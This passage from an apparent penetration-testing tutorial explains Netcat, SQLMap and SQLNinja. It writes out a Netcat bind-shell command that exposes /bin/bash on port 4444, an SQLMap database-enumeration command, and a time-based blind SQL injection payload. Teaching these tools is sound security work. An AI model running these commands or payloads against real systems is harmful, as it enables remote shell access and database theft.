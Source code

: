 **Example Netcat for a simple bind shell (attacker connects to victim):**

On Victim Machine (listening for incoming connection):

```bash
nc -lvp 4444 -e /bin/bash 
```

* `-l`: Listen mode.
* `-v`: Verbose output.
* `-p 4444`: Listen on port 4444.
* `-e /bin/bash`: Execute `/bin/bash` when a connection is established (creates a shell).

On Attacker Machine (connecting to victim):

```bash
nc 192.168.1.100 4444
```

## SQLMap

SQLMap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over database servers. It supports a wide range of database management systems and can perform various types of SQL injection attacks including error based, union based, and blind SQL injection. SQLMap works by sending carefully crafted SQL queries to the target application and analyzing the responses to determine if an SQL injection vulnerability exists. It then automates the extraction of data from the database, including database names, tables, columns, and even user credentials, leveraging advanced techniques to bypass security mechanisms.

**Example SQLMap usage (dumping all databases from a vulnerable URL):**

```bash
sqlmap -u "http://example.com/vulnerable_page.php?id=1" --dbs
```

* `-u`: Specifies the target URL.
* `--dbs`: Enumerates database names.

**Example of exploiting time based blind SQL injection:**
SQLMap might inject payloads like:

```sql
' AND (SELECT SLEEP(5))--
```

If the page takes 5 seconds longer to load, it indicates the SQL query executed the `SLEEP(5)` function, confirming a time based blind SQL injection.

## SQLNinja

SQL


Ninja is a tool specifically designed to exploit SQL Injection vulnerabilities on Microsoft SQL Server. It enables an attacker to gain remote access to the database server, execute commands, and escalate privileges. While somewhat specialized, it offers powerful capabilities for those targeting SQL Server environments. SQLNinja primarily focuses on exploiting specific SQL Server vulnerabilities and features, such as `xp_cmdshell` for command execution and various methods for privilege escalation. It automates the process of injecting malicious SQL code to achieve its objectives, often leveraging techniques like stacked queries and out of band data exfiltration.

